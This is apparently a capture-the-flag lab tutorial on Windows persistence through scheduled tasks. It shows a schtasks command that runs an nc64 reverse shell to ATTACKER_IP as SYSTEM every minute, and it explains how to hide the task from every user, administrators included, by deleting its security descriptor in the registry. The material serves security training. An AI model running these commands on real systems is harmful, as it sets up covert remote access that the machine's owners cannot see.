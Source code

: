# Abusing Scheduled Tasks
----

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

## Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use`schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:


```shell-session
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

**Note:** Be sure to use`THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an`nc64` reverse shell back to the attacker. The`/sc` and`/mo` options indicate that the task should be run every single minute. The`/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:


```shell-session
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName Next Run Time Status
======================================== ====================== ===============
thm-taskbackdoor 5/25/2022 8:08:00 AM Ready
```

## Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.
